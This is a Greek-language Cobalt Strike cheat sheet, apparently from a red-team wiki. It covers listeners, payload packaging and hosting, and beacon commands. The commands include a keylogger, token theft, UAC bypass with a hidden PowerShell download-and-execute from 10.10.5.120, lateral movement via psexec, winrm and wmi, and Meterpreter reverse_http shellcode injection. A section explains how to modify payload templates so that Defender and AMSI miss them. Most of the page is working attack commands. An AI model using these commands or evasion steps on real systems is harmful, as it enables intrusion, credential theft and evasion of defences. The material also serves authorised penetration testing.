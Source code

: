 # Cobalt Strike

### Ακροατές

### C2 Ακροατές

`Cobalt Strike -> Ακροατές -> Προσθήκη/Επεξεργασία` και μπορείτε να επιλέξετε πού να ακούσετε, ποιον τύπο beacon να χρησιμοποιήσετε (http, dns, smb...) και άλλα.

### Ακροατές Peer2Peer

Τα beacons αυτών των ακροατών δεν χρειάζεται να επικοινωνούν απευθείας με το C2, μπορούν να επικοινωνούν μέσω άλλων beacons.

`Cobalt Strike -> Ακροατές -> Προσθήκη/Επεξεργασία` και χρειάζεται να επιλέξετε τα beacons TCP ή SMB

* Το **TCP beacon θα ορίσει έναν ακροατή στην επιλεγμένη θύρα**. Για να συνδεθείτε σε ένα TCP beacon χρησιμοποιήστε την εντολή `connect <ip> <port>` από ένα άλλο beacon
* Το **smb beacon θα ακούσει σε ένα pipename με το επιλεγμένο όνομα**. Για να συνδεθείτε σε ένα SMB beacon χρειάζεται να χρησιμοποιήσετε την εντολή `link [target] [pipe]`.

### Δημιουργία και φιλοξενία payloads

#### Δημιουργία payloads σε αρχεία

`Επιθέσεις -> Πακέτα ->`&#x20;

* **`HTMLApplication`** για αρχεία HTA
* **`MS Office Macro`** για ένα εγγραφο γραφείου με μακρό
* **`Windows Executable`** για ένα .exe, .dll ή .exe υπηρεσίας
* **`Windows Executable (S)`** για ένα **stageless** .exe, .dll ή .exe υπηρεσίας (καλύτερο stageless από staged, λιγότερα IoCs)

#### Δημιουργία και φιλοξενία payloads

`Επιθέσεις -> Web Drive-by -> Scripted Web Delivery (S)` Αυτό θα δημιουργήσει ένα script/executable για να κατεβάσει το beacon από το cobalt strike σε μορφές όπως: bitsadmin, exe, powershell και python

#### Φιλοξενία Payloads

Αν ήδη έχετε το αρχείο που θέλετε να φιλοξενήσετε σε έναν διακομιστή ιστού, απλά πηγαίνετε στο `Επιθέσεις -> Web Drive-by -> Host File` και επιλέξτε το αρχείο που θέλετε να φιλοξενήσετε και τη διαμόρφωση του διακομιστή ιστού.

### Επιλογές Beacon

<pre class="language-bash"><code class="lang-bash"># Εκτέλεση τοπικού .NET binary
execute-assembly &#x3C;/path/to/executable.exe>

# Στιγμιότυπα οθόνης
printscreen    # Πάρτε ένα μόνο στιγμιότυπο οθόνης μέσω της μεθόδου PrintScr
screenshot     # Πάρτε ένα μόνο στιγμιότυπο οθόνης
screenwatch    # Πάρτε περιοδικά στιγμιότυπα οθόνης
## Πηγαίνετε στο Προβολή -> Στιγμιότυπα οθόνης για να τα δείτε

# keylogger
keylogger [pid] [x86|x64]
## Προβολή > Πλήκτρα για να δείτε τα πατημένα πλήκτρα

# portscan
portscan [pid] [arch] [targets] [ports] [arp|icmp|none] [max connections] # Ενσωμάτωση δράσης portscan μέσα σε άλλη διεργασία
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell
# Εισαγωγή Powershell module
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;γράψτε εδώ powershell cmd>

# Προσομοίωση χρήστη
## Δημιουργία διαπιστευτηρίων με creds
make_token [DOMAIN\user] [password] # Δημιουργία διαπιστευτηρίων για προσομοίωση ενός χρήστη στο δίκτυο
ls \\computer_name\c$ # Δοκιμάστε να χρησιμοποιήσετε τα δημιουργημένα διαπιστευτήρια για πρόσβαση στο C$ σε έναν υπολογιστή
rev2self # Σταματήστε τη χρήση των διαπιστευτηρίων που δημιουργήθηκαν με το make_token
## Η χρήση του make_token δημιουργεί το γεγονός 4624: Ένας λογαριασμός συνδέθηκε με επιτυχία. Αυτό το γεγονός είναι πολύ συνηθισμένο σε ένα τομέα Windows, αλλά μπορεί να περιοριστεί με φιλτράρισμα στον τύπο σύνδεσης. Όπως αναφέρθηκε παραπάνω, χρησιμοποιεί το LOGON32_LOGON_NEW_CREDENTIALS που είναι τύπος 9.

# UAC Bypass
elevate svc-exe &#x3C;ακροατής>
elevate uac-token-duplication &#x3C;ακροατής>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## Κλέψτε το token από το pid
## Όπως το make_token αλλά κλέβει το token από μια διεργασία
steal_token [pid] # Επίσης, αυτό είναι χρήσιμο για δικτυακές ενέργειες, όχι τ
### Δημιουργία νέας συνεδρίας σύνδεσης, σημειώστε το luid και το processid
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### Εισαγωγή εισιτηρίου στη δημιουργημένη συνεδρία σύνδεσης
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### Τέλος, κλέψτε το token από αυτήν τη νέα διεργασία
steal_token &#x3C;pid>

# Πλευρική κίνηση
## Εάν δημιουργήθηκε ένα token, θα χρησιμοποιηθεί
jump [method] [target] [listener]
## Μέθοδοι:
## psexec                    x86   Χρησιμοποιήστε ένα υπηρεσία για να εκτελέσετε ένα αρχείο EXE υπηρεσίας
## psexec64                  x64   Χρησιμοποιήστε ένα υπηρεσία για να εκτελέσετε ένα αρχείο EXE υπηρεσίας
## psexec_psh                x86   Χρησιμοποιήστε ένα υπηρεσία για να εκτελέσετε ένα PowerShell one-liner
## winrm                     x86   Εκτελέστε ένα σενάριο PowerShell μέσω WinRM
## winrm64                   x64   Εκτελέστε ένα σενάριο PowerShell μέσω WinRM

remote-exec [method] [target] [command]
## Μέθοδοι:
<strong>## psexec                          Απομακρυσμένη εκτέλεση μέσω του Service Control Manager
</strong>## winrm                           Απομακρυσμένη εκτέλεση μέσω WinRM (PowerShell)
## wmi                             Απομακρυσμένη εκτέλεση μέσω WMI

## Για να εκτελέσετε ένα beacon με wmi (δεν είναι στην εντολή jump) απλά ανεβάστε το beacon και εκτελέστε το
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe


# Παράδοση συνεδρίας στο Metasploit - Μέσω listener
## Στον υπολογιστή με το metasploit
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## Στο cobalt: Listeners > Add και ορίστε το Payload σε Foreign HTTP. Ορίστε το Host σε 10.10.5.120, τη θύρα σε 8080 και κάντε κλικ στο Save.
beacon> spawn metasploit
## Μπορείτε να εκκινήσετε μόνο συνεδρίες x86 Meterpreter με τον ξένο ακροατή.

# Παράδοση συνεδρίας στο Metasploit - Μέσω εισαγωγής shellcode
## Στον υπολογιστή με το metasploit
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw -o /tmp/msf.bin
## Εκτελέστε το msfvenom και προετοιμάστε τον ακροατή multi/handler

## Αντιγράψτε το αρχείο bin στον υπολογιστή του cobalt strike
ps
shinject &#x3C;pid> x64 C:\Payloads\msf.bin #Εισαγωγή του shellcode του metasploit σε μια διεργασία x64

# Παράδοση συνεδρίας metasploit στο cobalt strike
## Δημιουργία stageless Beacon shellcode, πηγαίνετε σε Attacks > Packages > Windows Executable (S), επιλέξτε τον επιθυμητό ακροατή, επιλέξτε τον τύπο εξόδου Raw και επιλέξτε τη χρήση του x64 payload.
## Χρησιμοποιήστε το post/windows/manage/shellcode_inject στο metasploit για να εισαγάγετε τον δημιουργημένο κώδικα shellcode του cobalt strike


# Περιστροφή
## Ανοίξτε ένα socks proxy στο teamserver
beacon> socks 1080

# Σύνδεση SSH
beacon> ssh 10.10.17.12:22 username password</code></pre>

## Αποφυγή των AVs

### Artifact Kit

Συνήθως στο `/opt/cobaltstrike/artifact-kit` μπορείτε να βρείτε τον κώδικα και τα προεπιλεγμένα πρότυπα (στο `/src-common`) των φορτίων που θα χρησιμοποιήσει το cobalt strike για να δημιουργήσει τα δυαδικά beacons.

Χρησιμοποιώντας το [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) με το δημιουργημένο backdoor (ή απλά με το προεπιλεγμένο πρότυπο) μπορείτε να βρείτε τον λόγο που ενεργοποιεί τον defender. Συνήθως είναι μια συμβολοσειρά. Επομένως, μπορείτε απλά να τροποποιήσετε τον κώδικα που δημιουργεί το backdoor έτσι ώστε αυτή η συμβολοσειρά να μην εμφανίζεται στο τελικό δυαδικό.

Μετά την τροποποίηση του κώδικα, απλά εκτελέστε `./build.sh` από τον ίδιο φάκελο και αντιγράψτε τον φάκελο `dist-pipe/` στον πελάτη Windows στο `C:\Tools\cobaltstrike\ArtifactKit`.
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
Μην ξεχάσετε να φορτώσετε το επιθετικό script `dist-pipe\artifact.cna` για να υποδείξετε στο Cobalt Strike να χρησιμοποιήσει τους πόρους από τον δίσκο που θέλουμε και όχι αυτούς που έχουν φορτωθεί.

### Συλλογή Εργαλείων

Ο φάκελος ResourceKit περιέχει τα πρότυπα για τα φορτία βασισμένα σε σενάρια του Cobalt Strike, συμπεριλαμβανομένων των PowerShell, VBA και HTA.

Χρησιμοποιώντας το [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) με τα πρότυπα, μπορείτε να βρείτε τι δεν αρέσει στον ανιχνευτή (AMSI σε αυτήν την περίπτωση) και να το τροποποιήσετε:
```
.\ThreatCheck.exe -e AMSI -f .\cobaltstrike\ResourceKit\template.x64.ps1
```
Τροποποιώντας τις ανιχνευμένες γραμμές μπορούμε να δημιουργήσουμε ένα πρότυπο που δεν θα ανιχνευθεί.

Μην ξεχάσετε να φορτώσετε το επιθετικό script `ResourceKit\resources.cna` για να υποδείξετε στο Cobalt Strike να χρησιμοποιήσει τους πόρους από τον δίσκο που θέλουμε και όχι αυτούς που έχουν φορτωθεί.
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .


```

